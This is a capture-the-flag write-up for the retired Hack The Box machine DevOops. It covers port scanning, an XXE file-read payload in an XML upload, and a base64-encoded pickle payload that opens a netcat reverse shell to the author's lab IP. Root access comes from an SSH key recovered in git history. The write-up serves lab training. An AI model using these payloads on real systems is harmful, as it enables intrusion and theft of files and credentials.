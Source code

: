 # DevOops

This is the write-up for the box DevOops that got retired at the 13th October 2018.
My IP address was 10.10.14.15 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.91    devoops.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/devoops.nmap 10.10.10.91
```

```markdown
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 42:90:e3:35:31:8d:8b:86:17:2a:fb:38:90:da:c4:95 (RSA)
|   256 b7:b6:dc:c4:4c:87:9b:75:2a:00:89:83:ed:b2:80:31 (ECDSA)
|_  256 d5:2f:19:53:b2:8e:3a:4b:b3:dd:3c:1f:c0:37:0d:00 (ED25519)
5000/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 5000)

The web server runs on [Gunicorn](https://github.com/benoitc/gunicorn) which is a **Web Server Gateway Interface (WSGI)** written in Python.
Normally such an application sits between Nginx and Python, because Nginx can't call Python directly.

On the web page it shows the following text:
```markdown
Under construction!
This is feed.py, which will become the MVP for Blogfeeder application.

TODO: replace this with the proper feed from the dev.solita.fi backend.
```

In the HTML source code it displays the _/feed_ directory which shows an image of an RSS feed with no interesting information.
Lets search for hidden directories with **Gobuster**:
```markdown
gobuster -u http://10.10.10.91:5000 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds the _/upload_ directory where it is possible to upload files:

![DevOops Upload page](devoops_web-1.png)

Lets send the requests to a proxy tool like **Burpsuite** to analyze this functionality.
When uploading a text file it doesn't show any special response, so lets send something with the XML elements:
```markdown
POST /upload HTTP/1.1
(...)

-----------------------------18436640097396874571627245540
Content-Disposition: form-data; name="file"; filename="test.xml"
Content-Type: text/xml

<Test>
	<Author>Test1</Author>
	<Subject>Test2</Subject>
	<Content>Test3</Content>
</Test>

-----------------------------18436640097396874571627245540--
```

Now it shows a different HTTP response:
```markdown
PROCESSED BLOGPOST:
Author: Test1
Subject: Test2
Content: Test3
URL for later reference: /uploads/test.xml
File path: /home/roosa/deploy/src
```

As XML gets processed, the next step is to exploit this with an **XML External Entity (XXE)** vulnerability.

### Exploiting XML External Entity

I will use a [Classic XXE from PayloadsAllTheThings repository](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/Files/Classic%20XXE%20-%20etc%20passwd.xml) and modify it with the XML elements:
```markdown
POST /upload HTTP/1.1
(...)

Content-Disposition: form-data; name="file"; filename="test.xml"
Content-Type: text/xml

<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<Test>
	<Author>&file;</Author>
	<Subject>Test2</Subject>
	<Content>Test3</Content>
</Test>
```

This works and displays the usernames from _/etc/passwd_ and this way reading files on the box is possible.
I automated this process with a Python script _devoops_xxe.py_ that can be found in this repository.

Lets read _feed.py_ from the current directory:
```python
(...)
@app.route("/newpost", methods=["POST"])
def newpost():
  # TODO: proper save to database, this is for testing purposes right now
  picklestr = base64.urlsafe_b64decode(request.data)
#  return picklestr
  postObj = pickle.loads(picklestr)
  return "POST RECEIVED: " + postObj['Subject']


# TODO: VERY important! DISABLED THIS IN PRODUCTION
# app = DebuggedApplication(app, evalex=True, console_path='/debugconsole')
# TODO: Replace run-gunicorn.sh with real Linux service script
# app = DebuggedApplication(app, evalex=True, console_path='/debugconsole')
(...)
```

This directory _/newpost_ was not found by our initial directory enumeration, so lets examine that.
It only accepts POST parameters and grabs request data to load it into _pickle.loads_ and execute it.

As the [Python module pickle](https://docs.python.org/3/library/pickle.html) is not secure, it is possible to execute arbitrary code.
I created a script to exploit this that can be found in this repository:
```markdown
python devoops_exploit-pickle.py
```

This script Base64-encodes the reverse shell command in the exploit, which now has to be sent to the box:
```markdown
POST /newpost HTTP/1.1
Host: 10.10.10.91:5000
(...)
Content-Type: text

Y3Bvc2l4CnN5c3RlbQpwMAooUydybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAxMC4xMC4xNC4xNSA5MDAxID4vdG1wL2YnCnAxCnRwMgpScDMKLg==
```

After sending the request, the listener on my IP and port 9001 starts a reverse shell session as _roosa_.

## Privilege Escalation

This user has a home directory _/home/roosa_ that has some interesting files in it.
After searching for a while, we find a private SSH key _/home/roosa/deploy/resources/integration/authcredentials.key_ and when comparing that to the private SSH key _/home/roosa/.ssh/id_rsa_ they are not the same.

On this box are some non-default users and root:
- git
- osboxes
- blogfeed
- root

After copying the SSH key and trying it on all of these users, unfortunately none of them work.

The user has another folder _/home/roosa/work/blogfeed_ which looks like a copy of the initial web page, where the same SSH key can also be found in _/home/roosa/work/blogfeed/resources/integration/authcredentials.key_.
This directory has a _.git_ file, which means that it is a **Git repository**.

When looking at the history of the repository with `git log` there are some interesting commits:
```markdown
commit 33e87c312c08735a02fa9c796021a4a3023129ad
Author: Roosa Hakkerson <roosa@solita.fi>
Date:   Mon Mar 19 09:33:06 2018 -0400

    reverted accidental commit with proper key

commit d387abf63e05c9628a59195cec9311751bdb283f
Author: Roosa Hakkerson <roosa@solita.fi>
Date:   Mon Mar 19 09:32:03 2018 -0400

    add key for feed integration from tnerprise backend
```

The user reverted an accidental commit, which was probably the one before it. Lets check the difference between the current version and the version with the accident:
```markdown
git diff d387abf63e05c9628a59195cec9311751bdb283f
```

It shows a different private SSH key, that will be copied again and tried out on the found usernames:
```markdown
chmod 600 rsa_key

ssh -i rsa_key root@10.10.10.91
```

The SSH key works with root!
